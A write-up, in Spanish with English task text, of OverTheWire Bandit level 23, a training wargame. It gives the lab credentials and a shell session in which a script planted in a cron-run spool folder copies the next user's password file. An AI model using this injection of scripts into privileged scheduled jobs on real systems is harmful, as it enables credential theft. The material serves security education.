 ## Objetivo

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso
**username**: bandit23
**host**:  bandit.labs.overthewire.org
**password**: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
**port**: 2220
## Solución
```
bandit23@bandit:~$ mkdir /tmp/my23
bandit23@bandit:~$ cd /tmp/my23
bandit23@bandit:/tmp/my23$ vi mys.sh
bandit23@bandit:/tmp/my23$ chmod +x mys.sh
bandit23@bandit:/tmp/my23$
bandit23@bandit:/tmp/my23$ cp mys.sh /var/spool/bandit24/
cp: cannot create regular file '/var/spool/bandit24/mys.sh': Operation not permitted
bandit23@bandit:/tmp/my23$ cat mys.sh
#!/bin/sh
cat /etc/bandit_pass/bandit24 >> /tmp/my23/bandit24pass
bandit23@bandit:/tmp/my23$ chmod 777 mys.sh
bandit23@bandit:/tmp/my23$ cp mys.sh /var/spool/bandit24/
cp: cannot create regular file '/var/spool/bandit24/mys.sh': Operation not permitted
bandit23@bandit:/tmp/my23$ cp mys.sh /var/spool/bandit23/
cp: cannot create regular file '/var/spool/bandit23/': Not a directory
bandit23@bandit:/tmp/my23$ ls -la /var/spool/bandit24/
total 12
dr-xr-x---  3 bandit24 bandit23 4096 Oct  5 06:19 .
drwxr-xr-x  5 root     root     4096 Oct  5 06:19 ..
drwxrwx-wx 90 root     bandit24 4096 Feb 27 18:02 foo
bandit23@bandit:/tmp/my23$ cp mys.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/my23$ ls -la .
total 408
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 27 17:52 .
drwxrwx-wt 1323 root     root     405504 Feb 27 18:03 ..
-rwxrwxrwx    1 bandit23 bandit23     66 Feb 27 17:52 mys.sh
bandit23@bandit:/tmp/my23$ cat mys.sh
#!/bin/sh
cat /etc/bandit_pass/bandit24 >> /tmp/my23/bandit24pass
bandit23@bandit:/tmp/my23$ touch bandit24pass
bandit23@bandit:/tmp/my23$ ls -la
total 408
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 27 18:03 .
drwxrwx-wt 1323 root     root     405504 Feb 27 18:04 ..
-rw-rw-r--    1 bandit23 bandit23      0 Feb 27 18:03 bandit24pass
-rwxrwxrwx    1 bandit23 bandit23     66 Feb 27 17:52 mys.sh
bandit23@bandit:/tmp/my23$ chmod 777 bandit24pass
bandit23@bandit:/tmp/my23$ cp mys.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/my23$ ls -la
total 412
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 27 18:03 .
drwxrwx-wt 1323 root     root     405504 Feb 27 18:05 ..
-rwxrwxrwx    1 bandit23 bandit23     33 Feb 27 18:05 bandit24pass
-rwxrwxrwx    1 bandit23 bandit23     66 Feb 27 17:52 mys.sh
bandit23@bandit:/tmp/my23$ cat bandit24pass
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```
## Notas adicionales

Podemos analizar scripts que se estén ejecutando en el sistema y aprovecharnos de los permisos que tiene ese proceso para inyectar codigo malicioso que nos permita el acceso a su contraseña.

## Referencias
